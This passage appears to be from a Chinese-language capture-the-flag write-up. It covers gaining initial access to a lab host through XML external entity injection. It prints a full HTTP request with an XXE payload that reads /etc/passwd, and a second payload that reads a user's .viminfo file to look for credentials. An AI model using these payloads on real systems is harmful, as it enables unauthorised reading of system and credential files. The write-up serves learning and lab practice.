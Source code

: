 ## 3. 获取初始访问权限 (Initial Access - XXE)

### 3.1. 确认漏洞 (Confirming Vulnerability)

为了验证 XXE 漏洞，我需要构造一个包含 XML 外部实体声明的 POST 请求。

![XXE Payload Preparation](https://7r1umphk.github.io/image/20250430202715434.png)

我注意到提交表单后，输入的 Email 地址会被回显到响应页面中。这提供了一个方便的位置来注入并显示外部实体的内容。

**构造 HTTP POST 请求 (使用 Burp Repeater):**

```http
POST / HTTP/1.1
Host: 192.168.205.197
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 231
Origin: http://192.168.205.197
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.205.197/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
      <user>
          <name>John Doe</name>
          <tel>123-4567890</tel>
          <email>&xxe;</email>
          <password>secret123</password>
        </user>
```

* **分析响应:**

  服务器返回的响应页面中，原本显示 Email 的地方，现在显示了 `/etc/passwd` 文件的内容。

  ![XXE Result - /etc/passwd Content](https://7r1umphk.github.io/image/20250430203121961.png)

  这成功确认了 XXE 漏洞的存在。从 `/etc/passwd` 的内容中，我注意到了一个名为 `welcome` 的普通用户 (`uid=1000`)。

### 3.2. 漏洞利用 (Exploitation - Credential Discovery)

确认漏洞后，目标是利用它来获取敏感信息，最好是用户凭据。考虑到 `welcome` 用户的存在，我尝试读取其家目录下的常见敏感文件。在尝试了 `.bash_history`、`.ssh/id_rsa` 等文件无果后，我决定尝试读取 `.viminfo` 文件。Vim 编辑器的历史记录文件有时会意外地包含密码或其他敏感信息。

* **构造读取 `.viminfo` 的 Payload:**

  ```http
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/welcome/.viminfo">]>
  <user>
      <name>John Doe</name>
      <tel>123-4567890</tel>
      <email>&xxe;</email>
      <password>secret123</password>
  </user>
  ```
